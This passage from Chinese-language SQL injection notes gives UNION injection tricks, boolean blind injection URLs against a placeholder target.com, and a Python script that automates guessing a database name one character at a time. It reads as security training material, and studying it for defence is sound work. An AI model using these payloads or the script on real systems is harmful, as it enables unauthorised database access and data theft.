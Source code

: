 #### 高级技巧
```sql
-- 无列名注入
select 1,2,3 union select * from (select * from users)a limit 1,1

-- 绕过字段数限制
select 1,2,3 union select * from (select 1,2,3,4,5,6)a

-- 利用别名
select 1,2,3 union select * from users as a inner join users as b
```

### [[布尔盲注]] (Boolean-based Blind)
**原理**: 通过构造真假条件，根据页面响应差异判断数据

#### 基础判断
```sql
-- 判断数据库长度
http://target.com/news.php?id=1' and length(database())>5--+  # 正常
http://target.com/news.php?id=1' and length(database())>10--+ # 异常

-- 逐字符猜解数据库名
http://target.com/news.php?id=1' and ascii(substr(database(),1,1))>97--+
http://target.com/news.php?id=1' and ascii(substr(database(),1,1))<122--+

-- 二分法优化
http://target.com/news.php?id=1' and ascii(substr(database(),1,1))>109--+
```

#### 自动化脚本
```python
import requests
import string

def boolean_blind_sqli(url, payload_template):
    """布尔盲注自动化"""
    result = ""
    
    # 获取数据长度
    for length in range(1, 50):
        payload = payload_template.format(f"length(database())={length}")
        if check_true_response(url + payload):
            data_length = length
            break
    
    # 逐字符猜解
    for pos in range(1, data_length + 1):
        for char in string.ascii_letters + string.digits + '_':
            payload = payload_template.format(
                f"ascii(substr(database(),{pos},1))={ord(char)}"
            )
            if check_true_response(url + payload):
                result += char
                break
    
    return result

def check_true_response(url):
    """检查响应是否为真"""
    response = requests.get(url)
    return "Welcome" in response.text  # 根据实际情况调整
```
